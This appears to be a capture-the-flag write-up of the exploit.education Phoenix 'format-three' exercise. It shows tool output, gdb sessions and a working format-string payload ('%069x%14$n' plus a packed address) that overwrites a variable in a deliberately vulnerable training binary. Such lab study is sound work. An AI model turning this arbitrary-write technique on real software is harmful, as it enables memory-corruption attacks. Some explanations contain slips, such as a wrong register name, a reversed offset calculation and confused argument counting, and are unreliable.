

# FORMAT THREE (pwn, exploit.education, phoenix, format-string, set address with qword value)

Notes:
- source code given

## Enumeration
### Protections
As in every task in phoenix all protections are disabled (aslr as well):

```bash
$ checksec format-three
[*] './format-three'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

and the file we have to exploit is a 64 bit binary:

```bash
$ file format-three
files/format-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=a490eeb5423b20f15cc5bf98c5e8c1010a129b6c, with debug_info, not stripped
```

### Goal
The goal is obvious, we have to set `changeme` with `0x64457845`.

### Vulnerabilities
The program is vulnerable to format-string. It first reads user input into `buf`:

```c
if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
}
bounce(buf);
```

 and then displays it inside `bounce` function:

 ```c
 void bounce(char *str) {
  printf(str);
}
```

## Exploit
We will want to overwrite the value under `0x64457845`. Printf let's us write to arbitrary location using `%n` type, which will set the value under provided address to number of bytes written so far:

```c
int x;
printf("1234%n", &x); // x will be set to 4
```

Ok, and what if our program looks like:

```c
printf("1234%n"); // what will get overwriten?
```

Well, `printf` doesn't validate the provided arguments. It just assumes they are valid. And how are arguments passed to functions on x86_64? Well, the first 6 are passed in: rdi, rsi, rdx, rcd, r8, r9 registers and the next ones are passed on stack.

So our program will overwrite the address stored under rsi register (as rdi keeps the format argument).


Ok, but how can we make the program to write to address of our choice? In this case the address of `changeme` variable?
Well, we can use `direct access` parameter which specifies the parameter to use for input. So `printf("1234%8$n")` would overwrite the second (8 - 6) value placed on stack with 0x4. And as our `buf` is also placed on the stack, we can make the program to get the address from the `buf`! And remember, we do control everything inside the `buf`.

That's exactly what we want to achieve! Let's try this out to overwrite the lsb of `changme` variable with 0x45.

First we have to find the address of `changme`. This can be done easly as binary was not compiled as PIE:

```c
objdump --syms format-three | grep changeme
000000000060104c g     O .bss	0000000000000004              changeme
```

Now let's check under gdb what is the offset between the `buf` and the `$rsp` register right before calling `printf`. This will be important!

```gdb
$ gdb -q format-three
gef➤  p &buf
$2 = (char (*)[4096]) 0x7fffffffcd40
$ gef➤  x/10i bounce
   0x4005c7 <bounce>:	push   rbp
   0x4005c8 <bounce+1>:	mov    rbp,rsp
   0x4005cb <bounce+4>:	sub    rsp,0x10
   0x4005cf <bounce+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x4005d3 <bounce+12>:	mov    rax,QWORD PTR [rbp-0x8]
   0x4005d7 <bounce+16>:	mov    rdi,rax
   0x4005da <bounce+19>:	mov    eax,0x0
   0x4005df <bounce+24>:	call   0x4004b0 <printf@plt>
   0x4005e4 <bounce+29>:	nop
   0x4005e5 <bounce+30>:	leave
gef➤ b *0x4005df
gef➤  c
Continuing.
Welcome, brought to you by https://exploit.education
lala
Breakpoint 1, 0x00000000004005df in bounce (str=0x7fffffffcd40 "lala\n") at format3.c:21
21	  printf(str);
gef➤ p $rsp
$2 = (void *) 0x7fffffffcd10
```

So the offset is: 0x7fffffffcd10 - 0x7fffffffcd40 = 48 = 6 * 8

Let's provide `%069x%14$nAAAAAA` + `\x4c\x10\x60\x00\x00\x00\x00\x00` as an input. Note that we had to pad the `format` string with 'A's to align stack address. Moreover we will overwrite the address passed as 13th argument. (14 = 5 + 6 + 2)

Our stack to look like this:



And the printf is translated to:

```c
printf("%069x%14$nAAAAAA", random address from rsi, 000000000060104c);
```

Meaning that the program will first output some random address from rsi padded to 69 characters and then store value 69 under 000000000060104c.

Let's check if we are correct. Remember to escape '$' sign, as bash thinks it is special character:

```bash
$ python -c "print '%069x%14\$nAAAAAA' + '\x4c\x10\x60\x00\x00\x00\x00\x00'" | ./format-three 
Welcome, brought to you by https://exploit.education
0000000000000000000000000000000000000000000000000000000000000ffffcdc0AAAAAAL`Better luck next time - got 0x00000045, wanted 0x64457845!
```

Ha, well done! We have overwriten a byte of our choice.


## References
https://kevinalmansa.github.io/application%20security/Format-Strings/